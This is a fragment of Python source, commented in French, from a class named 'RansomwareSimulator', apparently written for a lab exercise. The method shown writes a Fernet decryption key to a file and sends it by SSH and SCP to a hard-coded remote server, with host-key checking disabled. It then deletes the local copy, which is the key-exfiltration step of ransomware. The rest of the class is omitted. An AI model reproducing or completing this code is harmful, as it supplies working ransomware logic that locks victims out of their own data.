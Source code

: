 #!/usr/bin/env python3
import os
import sys
import subprocess
from cryptography.fernet import Fernet
from pathlib import Path

# Configuration
SSH_SERVER = "192.168.45.90"
SSH_USER = "doranco"
REMOTE_DIR = "/home/doranco/Desktop/script/cle_dechiffrement"
KEY_FILE = "decryption_key.key"
SSH_KEY_PATH = "/home/doranco/.ssh/id_rsa"  # Chemin vers votre clé privée SSH

class RansomwareSimulator:
    # ... (le reste de votre classe reste inchangé jusqu'à la méthode transfer_key_ssh)

    def transfer_key_ssh(self):
        """Transfère la clé via SSH en utilisant une clé d'authentification"""
        if not self.key:
            print("\n❌ Aucune clé générée!")
            return False

        try:
            print("\n🔄 Transfert de la clé...")
            
            # Crée un fichier temporaire
            with open(KEY_FILE, 'wb') as f:
                f.write(self.key)
            
            # Crée le répertoire distant avec SSH
            subprocess.run([
                'ssh',
                '-i', SSH_KEY_PATH,  # Utilisation de la clé SSH
                f'{SSH_USER}@{SSH_SERVER}',
                f'mkdir -p {REMOTE_DIR}'
            ], check=True)
            
            # Copie la clé via SCP
            subprocess.run([
                'scp',
                '-i', SSH_KEY_PATH,  # Utilisation de la clé SSH
                '-o', 'StrictHostKeyChecking=no',
                KEY_FILE,
                f'{SSH_USER}@{SSH_SERVER}:{REMOTE_DIR}/{KEY_FILE}'
            ], check=True)
            
            # Nettoyage
            os.remove(KEY_FILE)
            
            print(f"\n📤 Clé transférée avec succès vers :")
            print(f"   Serveur: {SSH_SERVER}")
            print(f"   Chemin: {REMOTE_DIR}/{KEY_FILE}")
            return True
            
        except subprocess.CalledProcessError as e:
            print(f"\n❌ Échec du transfert SSH: {e}")
            print("Vérifiez que:")
            print(f"1. La clé SSH {SSH_KEY_PATH} existe")
            print(f"2. La clé est autorisée sur {SSH_USER}@{SSH_SERVER}")
            print("3. Le serveur SSH accepte les connexions par clé")
            return False

    # ... (le reste de votre classe reste inchangé)